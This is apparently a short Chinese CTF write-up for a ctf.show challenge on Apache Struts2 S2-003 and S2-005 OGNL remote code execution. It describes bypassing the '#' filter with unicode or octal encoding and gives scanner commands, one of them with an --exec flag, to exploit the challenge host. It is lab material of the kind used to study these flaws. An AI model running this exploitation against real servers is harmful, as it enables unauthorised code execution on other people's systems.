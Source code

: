 # 知识点
### S2-003
> **Struts2将HTTP的每个参数名解析为ognl语句执行,而ognl表达式是通过#来访问struts的对象，Struts2框架虽然过滤了#来进行过滤，但是可以通过unicode编码（u0023）或8进制（43）绕过了安全限制，达到代码执行的效果**
> **影响版本：Struts 2.0.0 - Struts 2.0.11.2**

### S2-005
> **S2-005和S2-003的原理是类似的，因为官方在修补S2-003不全面，导致用户可以绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成的漏洞，可以说是S2-005是升级版的S2-003**
> **影响版本：Struts 2.0.0 - Struts 2.1.8.1**

[Struts2-005远程代码执行漏洞分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/193078.html)
# 思路
这里我们直接可以用专门的工具来进行利用<br />原作者的感觉不是很好用，下了一个别人改良的版本<br />[https://github.com/Vancomycin-g/Struts2Scan](https://github.com/Vancomycin-g/Struts2Scan)
```plsql
// 查询漏洞
python .\Struts2Scan.py -u http://7d50683d-7c6f-45d7-89d3-6b308651648c.challenge.ctf.show:8080/S2-005/example/HelloWorld.action
// 利用漏洞
python .\Struts2Scan.py -u http://7d50683d-7c6f-45d7-89d3-6b308651648c.challenge.ctf.show:8080/S2-005/example/HelloWorld.action -n S2-005 --exec
```

